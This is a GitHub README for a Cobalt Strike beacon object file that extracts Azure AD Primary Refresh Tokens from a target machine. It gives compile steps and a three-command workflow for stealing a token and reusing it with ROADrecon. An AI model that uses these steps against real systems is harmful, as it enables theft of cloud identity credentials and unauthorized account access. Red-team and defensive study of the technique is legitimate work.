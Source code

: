 # aad_prt_bof

This bof allows Cobalt Strike to extract Azure AD PRT tokens from the machine.
These tokens can then be used with tools like ROADTools to extract AAD information.

## How to compile
`make` for the beacon object files

`make test` for an executable

## Usage

After compiling, load the `aadprt.cna` file into Cobalt Strike.

1. Request a nonce using [ROADtoken](https://github.com/dirkjanm/ROADtoken): `roadtoken auth --prt-init`
2. Request a token on the target machine: `aadprt [NONCE]`
3. Use the token to authenticate in ROADrecon (or any other tool): `roadrecon auth --prt-cookie [TOKEN]`
4. Profit!

## References

Heavily inspired by the awesome work and research of [Dirk-jan](https://twitter.com/_dirkjan) and [Lee](http://twitter.com/tifkin_).

- https://dirkjanm.io/abusing-azure-ad-sso-with-the-primary-refresh-token/
- https://github.com/dirkjanm/ROADtoken
- https://github.com/leechristensen/RequestAADRefreshToken
- https://github.com/trustedsec/CS-Situational-Awareness-BOF
